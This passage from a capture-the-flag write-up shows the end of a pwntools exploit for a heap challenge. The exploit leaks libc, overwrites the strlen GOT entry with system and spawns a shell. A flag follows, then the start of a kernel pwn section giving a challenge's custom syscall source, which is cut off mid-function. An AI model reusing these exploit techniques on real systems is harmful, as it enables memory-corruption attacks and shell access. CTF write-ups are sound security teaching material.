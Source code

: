 ```py
c = add(b'\x08', b'hack')
show(b'')
libc_leak = u64(p.recvuntil('\x7f').ljust(8, b'\x00'))
libc.address = libc_leak - libc.sym.exit

clear()

a = add(b'1234', b'test1')
b = add(b'4321', p64(elf.got.strlen - 8))
delete(a)

c = add(b'\x60', b'hack')

if args.REMOTE:
    edit(p32((libc.address + 0x18b660) & 0xffffffff), p32(libc.sym.system & 0xffffffff))

else: 
    edit(p32((libc.address + 0xb4d30) & 0xffffffff), p32(libc.sym.system & 0xffffffff))

p.sendlineafter('>>> ', '/bin/sh')

p.interactive()
p.close()
```
Flag: `ACSC{PWN_1S_FUN_5W33T_D3liC1ous :)}`

# sysnote - 400 pts - 5 solves
This is a kernel pwn challenge. Some syscalls are added into kernel. This was special for me because I recently learned some kernel pwning techniques and this was my first time solving a kernel challenges during a CTF. I will skip some beginner stuff here, for that checkout my [writeup]({% post_url 2021-09-10-pass - grabcon %}) for a kernel challenge.<br>
Code for the syscalls is below:
```c
#include <linux/kernel.h>
#include <linux/syscalls.h>
#include <linux/compiler.h>
#include <linux/export.h>
#include <linux/fault-inject-usercopy.h>
#include <linux/kasan-checks.h>
#include <linux/thread_info.h>
#include <linux/uaccess.h>
#include <linux/kernel.h>
#include <linux/errno.h>
#include <linux/mm.h>

#define MAX_LENGTH 4096

// Linux version 5.13.0+ (zzoru@ubuntu) (gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0, GNU ld (GNU Binutils) 2.36.1) #20 SMP Sat Aug 14 07:01:51 PDT 2021

/* Looks like there is no strcpy_from_user function in kernel... so i made it! */
long strcpy_from_user(char *dst, const char __user *src)
{
    unsigned long max_addr, src_addr;
    long res = 0;

    might_fault();
	if (should_fail_usercopy())
		return -EFAULT;
	max_addr = user_addr_max();
	src_addr = (unsigned long)untagged_addr(src);
    if (likely(src_addr < max_addr)) {
```